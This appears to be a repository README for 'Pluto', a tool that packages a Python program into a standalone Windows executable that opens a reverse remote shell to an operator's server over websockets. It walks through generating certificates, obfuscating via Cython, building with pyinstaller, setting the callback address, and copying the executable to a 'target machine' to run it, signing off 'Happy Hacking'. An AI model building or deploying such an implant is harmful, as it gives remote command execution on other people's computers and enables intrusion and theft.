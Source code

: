 # Pluto

![pluto](/Images/pluto.png)

# Acknowledgement

First i would like to thank the All-Mighty God who is the source of all knowledge, without Him, this would not be possible.

## Introduction

This repository provides code that allows you to create an executable that can establish a remote shell back to your machine via websockets

## Features

- Self-Contained Python Executable
- Remote Command Execution via Windows CLI via

## Dependencies

- OpenSsl (you probably need to get gitbash for this)
- numpy
- PyQt6
- websockets
- backoff
- pyinstaller
- opencv-python


## Installation

## requirements.txt installation

Navigate to the src directory and install the requirements.txt

```
pip3 install -r requirments.txt
```
### Certificate generation

First ensure you have openssl installed on your windows box, the easiest way is to do this from a gitbash terminal

Run the `create_keys.py` script, you can pass your servers IP (the controlling machine) to the script via cli args like so:

```bash
python create_keys.py --ip 10.0.0.123
```

It will create the certificate.pem and private.key files in the pluto directory

### Create the executable

Navigate to the src directory and execute the following commands from there:

```bash
python3 cythonize_pluto.py
pyinstaller  --one-file --log-level=DEBUG pluto.spec
```
You can change the address of the server in the `src/pluto.py` by changing the default server address to your ip

```python
    parser.add_argument(
        "--server_address",
        default="wss://192.168.1.154:8765",
        help="WebSocket server address (default: wss://192.168.1.154:8765)",
    )
```

Or you can just invoke it with the args like so

```bash
 .\pluto_windows.exe --server_address wss://192.168.1.154:8765
```

The executable will be in the pluto_dist directory and it will be named `pluto_windows.exe`

### Deployment

Copy `pluto_windows.exe` to your target machine and execute it.


On your computer run the server

```bash
python3 websocket_server.py
```

You should see a "hello server message as seen in the screenshot below"

![pluto](/Images/server.png)

### Future developments

If you look in the src file, you would find a c# implementation and some other python files, those are for future development

## Contribution

Please feel free to open a pull request to contribute code to this repository

Happy Hacking